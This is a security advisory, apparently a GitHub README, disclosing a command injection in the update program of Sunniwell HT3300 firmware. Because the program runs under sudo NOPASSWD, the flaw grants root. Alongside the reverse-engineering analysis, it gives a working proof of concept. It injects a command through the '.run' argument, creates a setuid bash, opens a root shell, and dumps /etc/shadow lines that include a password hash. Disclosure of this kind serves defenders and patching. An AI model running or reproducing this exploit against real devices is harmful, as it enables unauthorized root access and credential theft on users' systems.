




### TL;DR

Vendor: sunniwell HT3300

Firmware: Before 1.0.0.B022.2

The /usr/local/bin/update program, which is responsible for updating the software in the HT3300 device, is given the execution mode of sudo NOPASSWD. This program is vulnerable to a command injection vulnerability, which could allow an attacker to pass commands to this program via command line arguments to gain elevated root privileges without password of current user.


### Analysis

The HT3300 device allows the `user` to execute the following programs with sudo NOPASSWD. This behavior is the system default and is controlled by the [sudoer](./sudoers) file.

```
user@user:~/Desktop/demo$ sudo -l
匹配 %2$s 上 %1$s 的默认条目：
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    always_set_home

用户 user 可以在 user 上运行以下命令：
    (ALL : ALL) ALL
    (ALL) NOPASSWD:
        /usr/local/vdi/terminal_management/swtr069/swtr069Desk,
        /usr/local/bin/start_tr069.sh,
        /usr/local/vdi/secret_management/swsecman,
        /usr/local/vdi/terminal_management/swtr069/start_tr069Serv.sh,
        /usr/local/bin/oldtest.sh,
        /usr/local/bin/recovery.sh,
        /usr/local/bin/upgrade_start.sh,
        /usr/local/bin/LocalSocketServer,
        /usr/local/bin/PowerManagement,
        /usr/local/bin/SystemStatusClient,
        /usr/local/bin/update,
        /usr/local/bin/init.rootserver.sh,
        /usr/local/vdi/RootServer/bin/RootServer,
        /usr/local/bin/TerminalNetManagement,
        /usr/local/bin/ShutdownAnimation,
        /usr/local/vdi/terminal_management/swtr069/dpkg_ethtool.sh,
        /usr/local/bin/check_product.sh,
        /usr/local/bin/checkproduct,
        /usr/local/bin/swvendor,
        /usr/local/bin/pacmd.sh
```
The [`/usr/local/bin/update`](./update) is responsible for the software upgrade of the HT3300 device.

Use IDA to reverse the [`/usr/local/bin/update`](./update). I found that take out argv[1] in the main function, and determine whether it is equal to "update", and when it is equal, execute the corresponding branch.



When argv[1] is not equal to “patch”, go to the if branch, otherwise go down to 152 lines of code.

The vulnerability needs argv[1] to be equal to "patch" to be triggered, so let's look down the 152 lines of code.



When we get to line 155, it take out argv[2], and at line 157, we determine if the suffix (the last four characters) of argv[2] is ".run" or not; if it is not equal, we go to the if branch. We need to make sure that the last four characters of argv[2] are “.run” in order to trigger the vulnerability, so we skip the if branch and look down line 174.

Line 175 of code splices argv[2] into command and then executes the command at line 181. This is where the vulnerability occurs, we simply insert the malicious command in argv[2] and the command can be executed with root privileges by update.




### Reproduce 

You can download the corresponding version of the firmware and take out /usr/local/bin/update in the filesystem to reproduce.

Or you can reproduce it like this, I've dumped /usr/local/bin/update and the libraries it depends on.

```
$ qemu-aarch64 ./lib/ld-2.28.so --library-path ./lib ./update patch '$(id).run'
...
sh: 1: uid=1009(user): not found
sh: 1: cannot create /home/generic/Desktop/cloudclient.desktop: 
...
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

When the `update` is executed with sudo, the id command is executed with root privileges.


### Exploit

```
user@user:~/Desktop/demo$ sudo /usr/local/bin/update patch '$(cp /usr/bin/bash ./bash; chmod +s ./bash).run'
a=patch,arg=patch
cmp=.runHDP升级
sh: 1: .run: not found
sh: 1: cannot create /home/generic/Desktop/cloudclient.desktop: Directory nonexistent
mkdir: 无法创建目录 “/usr/local/HDPClient/lib/plugins/”: 没有那个文件或目录
段错误
user@user:~/Desktop/demo$ ls -l
总用量 1196
-rwsr-sr-x 1 root root 1216928 8月  17 10:41 bash
-rw-r--r-- 1 user user    1206 8月  17 10:37 README.md
user@user:~/Desktop/demo$ ./bash -p
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) 组=0(root),7(lp),27(sudo),29(audio),115(lpadmin),999(nopasswdlogin),1000(user)
bash-5.0# uname -a
Linux user 4.19.193-g1ee6fd0d06e2 #41 SMP Fri Nov 10 14:49:23 CST 2023 aarch64 GNU/Linux
bash-5.0# cat /etc/shadow | head -n 2
root:$6$e4NBLiZ4/f5QFZVM$4oEJvHeaBwa48tfp1T.GrIUpfobBt8736YlY5GreVbEbCQG3uMX0jZf2t5bpvFoJjxbORt64YJeQAdh3icsq7.:19524:0:99999:7:::
daemon:*:19524:0:99999:7:::
bash-5.0#
```

